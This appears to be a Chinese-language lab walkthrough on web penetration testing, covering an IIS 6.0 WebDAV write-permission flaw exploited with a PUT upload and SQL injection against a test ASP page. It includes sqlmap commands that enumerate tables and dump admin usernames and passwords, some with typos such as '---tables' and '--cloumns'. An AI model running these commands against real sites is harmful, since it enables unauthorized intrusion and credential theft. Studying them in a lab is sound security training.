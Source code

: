 ### 演示二：

> IIS写权限
> IIS<=6.0 目录权限开启写入，开启WebDAV，设置为允许
> 可以通过提交put包，进行写入文件（可置入木马，获得权限）
> 参考利用：https://cloud.tencent.com/developer/article/2050105

主要漏洞其实也就是在进行网站搭建时，勾选上了写入。

图源：文章开头的文章链接处。

![img](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/a03245954c224a1fb730febd04f71589.png)

![img](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/e6a0c30a4c624a42992b2d390e92f9f9.png)

由于以上的写入开启导致使用postman的put写入一个3.txt进入网站：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/59e23f369163462db43a785cdff085fd.png" alt="img" style="zoom:67%;" />

![img](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/b79d80a564254506b4c0296675711ed5.png)

## SQL注入

### 案例1

通过访问PIC.asp得到查询方法是通过改变select后面的值classid值。

![img](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/aa43b09fb3f84c75be328efc7e924778.png)

![img](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/db06fa88c8854c25b728b551ecc76ca5.png)

其实在真实情况下进行sql注入时，并不需要什么万能密码，只需要在后面随便插入一些数据，之后看返回的内容是什么样，如果没有反应或者出现容错页面那就说明不存在注入点。在有注入点的情况下，页面返回的内容肯定是有sql语句执行错误内容返回（一定要是sql语句执行的报错，而不是代码处理的报错，或者是404页面，这些都是不存在注入点的）。

使用sqlmap进行注入：

```shell
python .\sqlmap.py -u "http://192.168.157.128:89/Pic.asp?classid=3" ---tables
```

证明有漏洞存在：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/69ea34b3855e4c9d9bc821bbf4020ffa.png" alt="img" style="zoom:80%;" />

使用第一个库，之后使用10线程来跑。当发现关键信息admin时可以停止。 

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4cb8db6d16c1407d90ccc46c97c9c59a.png" alt="img" style="zoom:80%;" />

```shell
G:\develop\safety\ONE-FOX集成工具箱_V3.0魔改版_by狐狸\gui_scan\sqlmap

python sqlmap.py -u “” --tables // 获取表名
python sqlmap.py -u “” --cloumns -T admin // 获取admin表名下的列名
python sqlmap.py -u “” --dump -C “username,password” -T admin // 获取表名下的列名数据

python .\sqlmap.py -u “http://192.168.200.140:89/Pic.asp?classid=3” --tables

python .\\sqlmap.py：启动 SQLMap 工具，使用 Python 解释器运行。

u "<http://192.168.200.140:89/Pic.asp?classid=3>"：指定目标 URL，即要测试的网站地址。在这个例子中，目标 URL 是 http://192.168.200.140:89/Pic.asp?classid=3。u 选项用于指定 URL。

-tables：指定 SQLMap 工具执行的任务，这里是获取数据库中的所有表。
-tables：选项用于请求表的信息。
-columns：选项用于请求列的信息
```
